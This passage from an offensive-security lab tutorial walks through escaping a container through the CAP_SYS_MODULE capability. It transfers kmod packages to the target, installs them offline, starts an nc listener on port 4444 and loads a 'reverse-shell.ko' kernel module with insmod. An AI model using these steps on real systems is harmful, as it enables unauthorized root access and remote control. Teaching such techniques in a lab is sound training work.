 > Listing 33 - Downloading the Required Packages

In a new terminal window, we'll again use **podman cp** to transfer the packages to Kali. Once they're transferred, we'll use **scp** to transfer them to the target.

```
kali@kali:~$ podman cp kmod:/kmod-29-r2.apk ./

kali@kali:~$ podman cp kmod:/xz-libs-5.2.5-r1.apk ./

kali@kali:~$ podman cp kmod:/zstd-libs-1.5.2-r1.apk ./

kali@kali:~$ scp -P 2222 kmod-29-r2.apk xz-libs-5.2.5-r1.apk zstd-libs-1.5.2-r1.apk root@sandbox:/root/
root@sandbox's password:
kmod-29-r2.apk                        100%   65KB   7.3MB/s   00:00
xz-libs-5.2.5-r1.apk                  100%   71KB  36.7MB/s   00:00
zstd-libs-1.5.2-r1.apk                100%  202KB  65.5MB/s   00:00
```

> Listing 34 - Transferring the Required Packages

Next, we'll go back to our target's shell and install the packages. We'll indicate that we don't need **apk** to download the packages with the **--no-network** option and specify the three packages we want to install as a list of files.

```
victim_cap_sys_module:~# apk add --no-network xz-libs-5.2.5-r1.apk zstd-libs-1.5.2-r1.apk kmod-29-r2.apk
WARNING: Ignoring https://dl-cdn.alpinelinux.org/alpine/v3.16/main: No such file or directory
WARNING: Ignoring https://dl-cdn.alpinelinux.org/alpine/v3.16/community: No such file or directory
(1/3) Installing xz-libs (5.2.5-r1)
(2/3) Installing zstd-libs (1.5.2-r1)
(3/3) Installing kmod (29-r2)
Executing busybox-1.35.0-r17.trigger
OK: 6 MiB in 17 packages
```

> Listing 35 - Installing the Required Packages

Before we can load the kernel module, we'll need to start a **ncat** listener to catch our shell. We'll use **nc** in Kali with the **-v** flag to make it _verbose_, **-l** flag to listen on a port, and **-p** to specify the port number (port 4444, in this case). This port is the same one we configured in our kernel module before we compiled it.

```
kali@kali:~$ nc -vlp 4444
listening on [any] 4444 ...
```

> Listing 36 - Starting the listener

Finally, we can load the module into the kernel. We'll use the **insmod** binary and provide it with the module file **reverse-shell.ko**.

```
victim_cap_sys_module:~# insmod reverse-shell.ko
```
